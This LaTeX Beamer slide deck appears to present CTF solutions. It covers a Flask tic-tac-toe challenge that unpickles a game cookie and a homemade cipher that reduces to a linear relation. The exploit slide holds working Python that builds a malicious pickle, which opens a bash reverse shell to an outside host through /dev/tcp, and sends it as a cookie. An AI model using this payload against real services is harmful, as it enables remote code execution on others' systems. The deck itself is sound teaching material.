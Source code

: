 \documentclass{beamer}
\begin{document}
\begin{frame}[fragile]
    \frametitle{Tic-Tac-Toe}

    Small game coded using python-flask

    \pause

    Bug: Using pickle for serialization

    \pause

    \begin{lstlisting}[style=customconsole]
$ curl -vv ctf.pwnies.dk:8080/play
* Connected to ctf.pwnies.dk (35.195.144.56) port 8080
> GET /play HTTP/1.1
> Host: ctf.pwnies.dk:8080
> User-Agent: curl/7.52.1
> Accept: */*
> 
< HTTP/1.0 200 OK
< Content-Type: text/html; charset=utf-8
< Content-Length: 1146
< Set-Cookie: game=63636f7079..70a7031300a73622e; Path=/
< Server: Werkzeug/0.12.2 Python/2.7.9
< Date: Mon, 28 Aug 2017 07:02:36 GMT
    \end{lstlisting}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Tic-Tac-Toe, exploit}
    \begin{lstlisting}[style=custompy]
import pickle
import requests
import os

class exploit(object):
    def __reduce__(self):
        return (os.system,
            ("/bin/bash -c \"sh < /dev/tcp/ebfe.dk/1337 1>&0\"",)
        )

pickle_exploit = pickle.dumps(exploit()).encode("hex")

requests.get("http://ctf.pwnies.dk:8080/play",
    cookies={"game": pickle_exploit}
)
    \end{lstlisting}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Roll-Your-Own}

    \begin{lstlisting}[style=custompy]
@crypto
def enc(x, k):
    x = (x + k) % P
    x = (x * 1337) % P
    return x

    \end{lstlisting}
    
    where 'crypto' applies 'enc' to some plaintext $x$, $2^{20}$ times using a key $k$, and $P$ is some $256$ bit prime,

    and we have a known plaintext/chiphertext pair(lorem, loren.enc)

    \pause

    Consider applying 'enc' twice:
    
    \begin{align*}
        enc(enc(x, k)) &=  enc(1337*x + 1337*k, k) \pmod{P} \\
                       &= 1337^2 *x + 1337*1338 *k \pmod{P}
    \end{align*}

    \pause

    Applying it $2^{20}$ times just give a linear relation of the form:
    \[ enc_{2^{20}}(x, k) = A * x + B * k \pmod{P} \]
\end{frame}
\end{document}
